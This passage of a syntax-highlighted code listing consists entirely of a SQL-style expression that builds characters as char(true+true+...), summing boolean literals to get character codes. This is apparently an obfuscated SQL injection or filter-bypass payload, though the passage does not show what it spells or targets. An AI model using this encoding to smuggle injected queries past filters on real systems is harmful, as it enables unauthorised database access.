class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span>),<span class="type">char</span>(<span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span class="operator">+</span><span class="literal">true</span><span 